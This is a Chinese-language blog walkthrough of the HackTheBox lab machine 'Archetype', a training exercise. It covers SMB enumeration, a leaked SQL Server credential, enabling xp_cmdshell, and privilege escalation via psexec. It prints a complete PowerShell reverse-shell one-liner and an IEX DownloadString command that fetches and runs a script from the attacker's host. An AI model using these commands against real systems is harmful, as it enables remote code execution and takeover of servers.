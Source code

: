 # 原创
：  HackTheBox-Archetype

# HackTheBox-Archetype

#### HackTheBox-Archetype

## 连接配置

> 
参考之前写的连接配置，[文章链接](https://blog.csdn.net/LYJ20010728/article/details/119116747?spm=1001.2014.3001.5502)


## 信息收集

> 
根据网站提示，目标是`10.10.10.27`，使用nmap进行扫描


```
nmap -sS -A 10.10.10.27

```

> 
发现目标开启了135、139、445、1433端口，其中1433是SQL Server数据库默认使用的端口，445是文件共享协议（SMB）默认使用的端口


## 测试445端口

> 
测试445端口的SMB服务是否支持匿名访问，没有经过权限配置可能默认允许所有人无需身份认证来匿名访问共享资源，使用smbclient来访问samba服务器的共享资源


```
smbclient -N -L //10.10.10.27/

-N：匿名登录
-L：获取共享资源列表

```

> 
在共享资源列表内发现存在一个backups目录，使用smbclient访问它观察一下


```
smbclient -N //10.10.10.27/backups

```

> 
使用`dir`命令列出backups文件夹下的文件，发现存在一个prod.dtsConfig文件，它是与SSIS一起使用的配置文件，使用`get`命令下载到主机上，使用`cat`命令查看一下文件内容


<img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/6fd615495305457d9e535b95ff0a88a3.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center"/><br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/63790e6351714d0d92ba52c53f3ca168.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center"/>

> 
发现其中包含本地Windows用户的凭据的`Password`和`User ID`参数，User ID参数的值为ARCHETYPE\sql_svc，ARCHETYPE是靶机的主机名，sql_svc是具有数据库登录权限的操作系统用户名


```
&lt;DTSConfiguration&gt;
    &lt;DTSConfigurationHeading&gt;
        &lt;DTSConfigurationFileInfo GeneratedBy="..." GeneratedFromPackageName="..." GeneratedFromPackageID="..." GeneratedDate="20.1.2019 10:01:34"/&gt;
    &lt;/DTSConfigurationHeading&gt;
    &lt;Configuration ConfiguredType="Property" Path="\Package.Connections[Destination].Properties[ConnectionString]" ValueType="String"&gt;
        &lt;ConfiguredValue&gt;Data Source=.;Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc;Initial Catalog=Catalog;Provider=SQLNCLI10.1;Persist Security Info=True;Auto Translate=False;&lt;/ConfiguredValue&gt;
    &lt;/Configuration&gt;
&lt;/DTSConfiguration&gt;

```

### smbclient命令的使用方法 (补充)

```
1，列出某个IP地址所提供的共享文件夹
smbclient -L 198.168.0.1 -U username%password

2,像FTP客户端一样使用smbclient
smbclient //192.168.0.1/tmp -U username%password
执行 smbclient命令成功后，进入 smbclient环境，出现提示符： smb:/&gt; 这时输入？会看到支持的命令
这里有许多命令和ftp命令相似，如cd 、lcd、get、megt、put、mput等。通过这些命令，我们可以访问远程主机的共享资源。

3,直接一次性使用smbclient命令
smbclient -c "ls" //192.168.0.1/tmp -U username%password
和
smbclient //192.168.0.1/tmp -U username%password
smb:/&gt;ls
功能一样的

例，创建一个共享文件夹
smbclient -c "mkdir share1" //192.168.0.1/tmp -U username%password
如果用户共享//192.168.0.1/tmp的方式是只读的，会提示
NT_STATUS_ACCESS_DENIED making remote directory /share1

4，除了使用smbclient，还可以通过mount和smbcount挂载远程共享文件夹
挂载 mount -t cifs -o username=administrator,password=123456 //192.168.0.1/tmp /mnt/tmp
取消挂载 umount /mnt/tmp

```

## 连接数据库

> 
在python2环境下利用`impacket`连接数据库


> 
判断当前是否拥有sysadmin权限


```
SELECT IS_SRVROLEMEMBER('sysadmin')

```

> 
返回值为1，说明当前用户具有sysadmin权限，能够在靶机上使用SQL Server的xp_cmdshell来进行远程代码执行


## 使用数据库调用系统命令

> 
利用数据库调用执行系统命令


```
EXEC sp_configure 'Show Advanced Options', 1;			\\使用sp_configure系统存储过程，设置服务器配置选项，将Show Advanced Options设置为1时，允许修改数据库的高级配置选项
reconfigure;											\\确认上面的操作
sp_configure;											\\查看当前sp_configure配置情况
EXEC sp_configure 'xp_cmdshell', 1;						\\使用sp_configure系存储过程，启用xp_cmdshell参数，来允许SQL Server调用操作系统命令
reconfigure;											\\确认上面的操作
xp_cmdshell "whoami" 									\\在靶机上调用cmdshell执行whoami

```

> 
SQL返回当前数据库进程的操作系统用户为`archetype\sql_svc`


## 获取操作系统普通用户权限

> 



```
$client = New-Object System.Net.Sockets.TCPClient("10.10.16.53",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2&gt;&amp;1 | Out-String );$sendback2 = $sendback + "# ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()

```

> 
用python起一个http服务器，监听80端口来供靶机下载shell.ps1文件


```
python3 -m http.server 80

```

> 
在kali中启动netcat监听443端口，等待靶机反向shell连接 (注意端口号需要与shell.ps1中相对应)


```
nc -nvvlp 443

```

> 
回到数据库shell中，执行命令


```
xp_cmdshell "powershell "IEX (New-Object Net.WebClient).DownloadString(\"http://10.10.16.53/shell.ps1\");"

```

> 
目的是为了让靶机到kali内下载shell.ps1文件并执行，查看刚才python搭建的http服务器，发现已经接收到请求


> 
查看监听，发现已经弹回shell，执行一个ipconfig发现可以正常使用


> 
在`C:\Users\sql_svc\Desktop\user.txt`中找到User Own的Flag


## 提权

> 
发现sql_svc是操作系统普通用户、数据库以及数据库服务用户，检查一下频繁访问的文件或已执行的命令，使用如下命令来访问PowerShell历史记录文件


```
type C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt

```

> 
发现administrator用户登录后将共享文件夹\Archetype\backups映射到T盘，使用Impacket中的psexec.py来提权


```
psexec.py administrator@10.10.10.27

```

> 
执行 `type C:\Users\Administrator\Desktop\root.txt` 命令成功拿到System Own的Flag

